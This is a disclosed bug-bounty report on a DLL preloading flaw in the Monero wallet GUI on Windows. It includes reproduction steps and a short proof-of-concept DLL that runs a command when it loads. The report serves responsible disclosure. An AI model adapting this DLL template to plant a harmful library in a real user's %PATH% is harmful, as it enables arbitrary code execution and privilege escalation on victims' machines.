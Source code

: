 # Misconfiguration in build environment allows DLL preloading attack

## Report Details
- **Report ID**: 896338
- **URL**: https://hackerone.com/reports/896338
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-06-11T20:59:35.213Z
- **Disclosed**: 2022-01-29T17:08:01.081Z

## Reporter
- **Username**: nim4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
## Summary:
`monero-wallet-gui.exe` tries to dynamically load some dynamic link libraries(DLL) which are not present in the applications directory, so `LoadLibraryA` system-call will search other directories such as Windows root and %PATH% for them. An attacker can gain arbitrary code execution if he/she has write permission to any of the directories within the `%PATH%`.

List of DDLs:
- `ZLIB1.dll` 
- `perf.dll` loaded by `atio6axx.dll` (AMD OpenGL)

## Releases Affected:

Tried on `v0.16.0.0` on Windows 10 Home Edition with AMD GPU

## Steps To Reproduce:

  1.  Create a DLL and put the exploit in `DLL_PROCESS_ATTACH` event.
  2. Rename the DLL to `ZLIB1.dll`
  3. Copy the DLL to any directory in the path(`echo %PATH%`)
  4. Run `monero-wallet-gui.exe`

## Supporting Material/References:

PoC DLL:
```
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved)
{
    switch(fdwReason)
    {
        case DLL_PROCESS_ATTACH:
            system("cmd /Q /D /C calc.exe");
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
    }
    
    return TRUE;
}
```

## Housekeeping

Address: 8C5XAD3aAH9CfwCh7M8vhXgzyLPCLQTPWJk6nXnxGPpH2dGfEShuWWzdXqz92tWu2874A13BEwp6SeGhWK6MAJzvKCxZW4L

## Impact

Arbitrary code execution and  privilege escalation

## Attachments
- poc.mkv
